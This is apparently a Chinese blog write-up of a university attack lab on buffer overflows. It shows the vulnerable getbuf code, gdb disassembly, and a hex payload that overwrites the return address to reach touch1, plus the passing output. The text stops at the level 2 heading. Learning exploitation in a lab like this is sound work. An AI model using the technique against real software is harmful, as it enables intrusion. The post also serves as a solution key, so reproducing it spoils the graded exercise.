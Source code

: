 这个实验我很早以前就做完了，但当时没有写博客，现在想起来，发现已经完全忘记当时怎么做的了。只好再做一次。

实验的基本玩法就是实验缓冲区溢出攻击，攻击的成功的标志是调用特定的函数。实验分为两个部分，第一部分就做Code Injection Attacks，这里栈上是可以执行代码的，并且没有栈随机化机制。第二部分叫做Return-Oriented Programming，这里栈上不能执行代码，并且有栈随机化机制。

实验中的流程是这样的，首先，主函数调用一个test函数，

```
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

test调用一个可以执行缓冲区攻击的函数。

```
unsigned getbuf(){
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

我们通过输入一个特定的字符串，使缓冲区溢出，如果能成功调用一个函数，则攻击成功。

##Part I level 1
这里我们需要调用的函数为touch1。

```
void touch1(){
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

因为touch1不需要参数，所以只需要把返回地址覆盖为touch1的地址即可。为了做到这点，我们先要查看缓冲区的大小。我们需要执行以下操作。
```
gdb ./ctarget
disas getbuf
	0x00000000004017a8 <+0>:     sub    $0x28,%rsp //缓存区大小为40字节
	...
disas touch1
	0x00000000004017c0 <+0>:     sub    $0x8,%rsp //touch1函数地址
```
所以，这里我们只需要先输入40个任意字符，然后再输入touch1的地址覆盖原来的返回地址，这样，函数返回的时候，就会跳转到touch1。这样我们可以构造出答案c1.txt（为了美观，这里进行了换行，真的答案没有换行，换行也支持），注意地址的输入顺序。
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
执行
```
./hex2raw < c1.txt | ./ctarget -q
	Cookie: 0x59b997fa
	Type string:Touch1!: You called touch1()
	Valid solution for level 1 with target ctarget
```
OK，pass。
##Part I level 2
这里我们需要调用的函数是touch2。
